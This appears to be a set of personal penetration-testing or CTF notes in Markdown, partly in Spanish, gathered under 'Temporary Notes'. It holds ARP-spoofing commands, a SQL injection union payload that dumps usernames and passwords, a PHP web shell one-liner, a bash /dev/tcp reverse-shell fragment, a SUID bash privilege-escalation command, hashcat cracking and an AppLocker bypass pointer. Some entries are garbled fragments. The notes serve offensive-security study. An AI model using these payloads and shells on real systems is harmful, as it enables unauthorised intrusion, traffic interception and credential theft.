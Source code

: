 # (PART) Temporary Notes {-}

## MITM ARP Spoofing {-}

**ARP** is a protocol used to resolve network interface MAC addresses, this is used by computer to resolve host IP addresses to a mac address.
After performing an ARP run, hosts store the resoluting MAC addresse in a ARP cache table to avoid further useless ARP runs. If an Attacker is 
able to manipulate the ARP cache, he is also able to intercept traffic on a network, even a switched network.

Attacker steps:

1. Configure ip forwarding 
    ```bash
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
1. Run Arpspoof tool 
    ```bash
    arpspoof -i eth0 -t <target_ip> -r <address of webserver>
    ```

> [ ! ] NOTE: everything sniffing on this kind of attack can be checked with Wireshark




## Enumeration {-}


```bash
openssl s_client -connect 
```



### websites {-}

exploit-db.com  
gtfobins.github.io  
https://github.com/danielmiessler/SecLists
wrapper lsi base64
rosettacode.org/wiki/Execute_a_system_command
pentestmonkey.net
hashcat wiki
Chisel github for port forwarding
payloadsAllTheTings github
seccure python github -> encryption
crackstation
gtfobins.github.io
shankro github
cirt.net/passwords -> default credentials


> [ ! ] Note: /etc/hosts for virtual hosting when direct ip not allowed




## priviledge Escalation {-}

```bash
id
#result
adm


cd /var/logs
find \-group adm \-type f 2>/dev/null | grep -v "\.gz" | xargs grep -E -i "post"
```


## sounds {-}

audacity

bloodhound &< /dev/null &


upx brute para reducir la tailla del binario


```bash
    &>/dev/null -> for no output printing
    2>/dev/null -> for no stderr printing
```




```bash
10.10.10.96/users/'union select group_concat(username, : ,password) from users_gbw-- -

hashcat -m 10900 -a 0 hashes /usr/share/wordlists/rockyou.txt
hashid
```
> [ ! ] Note: ${IFS} or %20 for spaces

website:



when php disabled function are fully:

if putenv() o mail()


<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>

extentions for php

Todo

bash -i >& /dev/tcp

backup bck back old swp ~

# compile with go {-}
(pspy)

go build -ldflags "-s -w" .

chmod u+s /bin/bash

which curl
which wget

wget -qO- <ip>

# create .key and .csr with openssl {-}

openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr


cat amanda.csr | xclip -sel clip

# Bypass blocked program {-}

ERROR: Program '' failed to run: This program is blocked by group policy.

you can check the [AppLocker bypass](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypass.md)

You can then check the folders that will not be checked by the AppLocker. So just copy the binary that you want to execute into one 
of those directory and execute it.
